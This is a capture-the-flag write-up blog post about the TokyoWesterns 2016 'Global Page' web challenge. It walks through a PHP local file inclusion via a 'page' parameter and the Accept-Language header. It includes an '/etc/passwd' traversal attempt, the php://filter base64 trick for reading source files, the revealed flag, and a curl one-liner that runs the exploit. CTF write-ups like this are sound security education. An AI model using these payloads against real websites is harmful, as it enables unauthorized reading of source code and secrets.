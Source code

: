 ```yaml
---
title: '[TWCTF-2016: Web] Global Page Writeup'
author: Megabeets
type: post
date: 2016-09-05T00:01:54+00:00
url: /twctf-2016-web-global-page/
categories:
  - TWCTF 2016
  - Writeups
tags:
  - CTF
  - LFI
  - TWCTF
  - Web
  - Writeups

---
```

> **Challenge description: **  
> _Welcome to TokyoWesterns&#8217; [CTF][1]!_

* * *

<span style="font-weight: 400;">As I entered the challenge I faced a three items list &#8211; two links and a strikethrough word:</span>.

  * <span style="font-size: 10pt;"><em><a href="http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo">Tokyo</a></em></span>
  * <span style="font-size: 10pt;"><em><del>Westerns</del></em></span>
  * <span style="font-size: 10pt;"><em><a href="http://globalpage.chal.ctf.westerns.tokyo/?page=ctf">CTF</a></em></span>

<span style="font-weight: 400;">I clicked the </span>_<span style="font-weight: 400;">tokyo</span>_ <span style="font-weight: 400;">link, which was actually a GET request with a parameter named </span>_<span style="font-weight: 400;">page </span>_<span style="font-weight: 400;">in index.php. In response I got a page with PHP error and information from Wikipedia about Tokyo, printed in Hebrew &#8211; my mother tongue.</span>

<table>
  <tr>
    <td style="text-align: left;">
      <span style="font-size: 10pt;"><b>Warning</b>: include(tokyo/en-US.php): failed to open stream: No such file or directory in <b>/var/www/globalpage/index.php</b> on line <b>41</b></span><br /> <span style="font-size: 10pt;"> <b>Warning</b>: include(): Failed opening &#8216;tokyo/en-US.php&#8217; for inclusion (include_path=&#8217;.:/usr/share/php:/usr/share/pear&#8217;) in <b>/var/www/globalpage/index.php</b> on line <b>41</b></span><br /> &#8230;
    </td>
  </tr>
</table>

<span style="font-weight: 400;">First thing to come in mind is a <a href="https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion" target="_blank">LFI </a>attack, but before making any reckless time-wasting moves, let&#8217;s first figure it all out. The page uses </span><a href="http://php.net/manual/en/function.include.php" target="_blank"><span style="font-weight: 400;">include()</span></a> <span style="font-weight: 400;">to, well, include the page &#8220;</span>_<span style="font-weight: 400;">en-US.php</span>_<span style="font-weight: 400;">&#8221; from folder named </span>_<span style="font-weight: 400;">tokyo</span>_<span style="font-weight: 400;">. The page wasn&#8217;t existed so an error was thrown. I tried pages like &#8220;en.php&#8221;, &#8220;he.php&#8221; and &#8220;jp.php&#8221; and they did exist. The page &#8220;</span>_<span style="font-weight: 400;">ctf</span>_<span style="font-weight: 400;">&#8221; displayed similar behaviors. Seems like all the pages display their information based on the user&#8217;s or the browser&#8217;s language. </span>

<span style="font-weight: 400;">The second thing I tested was the page’s reactions to different values. I tried the value &#8220;</span>_<span style="font-weight: 400;">?page=flag</span>_<span style="font-weight: 400;">&#8221; and it returned the expected error:</span>

<table>
  <tr>
    <td>
      <span style="font-size: 10pt;"><b>Warning</b>: include(flag/en-US.php): failed to open stream: No such file or directory in <b>/var/www/globalpage/index.php</b> on line <b>41</b></span><br /> <span style="font-size: 10pt;"> <b>Warning</b>: include(): Failed opening &#8216;flag/en-US.php&#8217; for inclusion (include_path=&#8217;.:/usr/share/php:/usr/share/pear&#8217;) in <b>/var/www/globalpage/index.php</b> on line <b>41</b></span><br /> <span style="font-size: 10pt;"> <b>Warning</b>: include(flag/en.php): failed to open stream: No such file or directory in <b>/var/www/globalpage/index.php</b> on line <b>41</b></span><br /> <span style="font-size: 10pt;"> <b>Warning</b>: include(): Failed opening &#8216;flag/en.php&#8217; for inclusion (include_path=&#8217;.:/usr/share/php:/usr/share/pear&#8217;) in <b>/var/www/globalpage/index.php</b> on line <b>41</b></span>
    </td>
  </tr>
</table>

<span style="font-weight: 400;">I then understood the page was trying to include the language file and every value that I&#8217;ll set to &#8220;</span>_<span style="font-weight: 400;">page&#8221;</span>_ <span style="font-weight: 400;">will be a folder. I tested the page with the value &#8220;../../../etc/passwd&#8221; with and without a null-byte terminator but failed due to the sanitize of dots and slashes the page performs. </span>

<span style="font-weight: 400;">But how does the page know my language? It took me a while to figure it out. The page took my language settings from the &#8220;</span>_<span style="font-weight: 400;">Accept-Language</span>_<span style="font-weight: 400;">&#8221; field in the request&#8217;s header. I tried to change </span>_<span style="font-weight: 400;">Accept-Language</span>_ <span style="font-weight: 400;">to something else using a Firefox plugin called </span>_<span style="font-weight: 400;">Tamper Data</span>_ <span style="font-weight: 400;">and it worked! Any value I&#8217;ll put there will change the requested page. For example if I request &#8220;?page=Mega&#8221; and set </span>_<span style="font-weight: 400;">Accept-Language</span>_ <span style="font-weight: 400;">to &#8220;beets&#8221; it would return the errors:</span>

<table>
  <tr>
    <td>
      <span style="font-size: 10pt;"> <b>Warning</b>: include(Mega/beets.php): failed to open stream: No such file or directory in <b>/var/www/globalpage/index.php</b> on line <b>41</b></span><br /> <span style="font-size: 10pt;"> <b>Warning</b>: include(): Failed opening &#8216;Mega/beets.php&#8217; for inclusion (include_path=&#8217;.:/usr/share/php:/usr/share/pear&#8217;) in <b>/var/www/globalpage/index.php</b> on line <b>41</b></span>
    </td>
  </tr>
</table>

<span style="font-weight: 400;">I combined it all together to perform a well known LFI attack using <a href="http://php.net/manual/en/wrappers.php.php" target="_blank">php://filter</a>. I set the parameter value to &#8220;php:&#8221; and the </span>_<span style="font-weight: 400;">Accept-Language</span>_ <span style="font-weight: 400;">field to &#8220;/filter/convert.base64-encode/resource=index&#8221;. This function encodes the page with Base64 before including it. And indeed I got &#8220;index.php&#8221; encoded with base64. The decoded page looks like this: </span>  


<span style="font-weight: 400;">As you can see on the top of the code there is an included page named &#8220;flag.php&#8221;. I changed the </span>_<span style="font-weight: 400;">Accept-Language </span>_<span style="font-weight: 400;">accordingly to &#8220;/filter/convert.base64-encode/resource=flag&#8221; and received the encoded page. Decode it to reveal the flag:</span>

**TWCTF{I\_found\_simple_LFI}**

<span style="font-size: 12pt;">By the way, you can also solve it the &#8220;Curl&#8221; way:</span>

```sh
curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"
```


&nbsp;

<p style="text-align: right;">
  <img src="../uploads/megabeets_inline_logo.png" />Eat Veggies.
</p>

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://globalpage.chal.ctf.westerns.tokyo/